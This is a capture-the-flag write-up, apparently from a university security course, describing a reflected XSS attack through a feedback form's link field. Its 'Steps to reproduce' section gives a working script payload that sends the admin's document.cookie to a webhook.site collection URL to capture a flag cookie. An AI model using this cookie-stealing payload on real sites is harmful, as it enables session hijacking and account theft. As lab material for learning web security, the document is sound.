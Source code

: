 # Challenge `My favorite cookies` writeup

- Vulnerability: What type of vulnerability is being exploited
  - _Cross-site scripting (XSS)_
- Where: Where is the vulnerability present
  - _Feedback form (link for bug/feature request field)_
- Impact: What results of exploiting this vulnerability
  - _Allows to run arbitrary JavaScript code in the victim's browser by injecting crafted payloads in the link field of the feedback form, making it possible to redirect the victim's cookies to a controlled server_

NOTE: Knowing that the admin is curious about all feedback received and will probably open the link referenced as the source of the feedback, it is possible to craft a payload that redirects the victim's cookies to a controlled server.
This can be done by setting up a server that listens for incoming requests and logs them. The server was set using `Webhook.site` at `https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909`.

## Steps to reproduce

1. Access the vulnerable application homepage at `/` endpoint.
2. Inject the following payload in the link field of the feedback form in order to redirect the victim's cookies to a controlled server:
```html
http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=<script>window.open("https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909/?cookie="%2Bdocument.cookie)</script>
```

3. Submit the feedback request and when the admin opens the link present in the feedback form, the script is executed in his browser, redirecting his cookies to the controlled server and logging them under the `cookie` query parameter in the server's dashboard. The flag is available at the cookie value of the `SECRET` cookie.
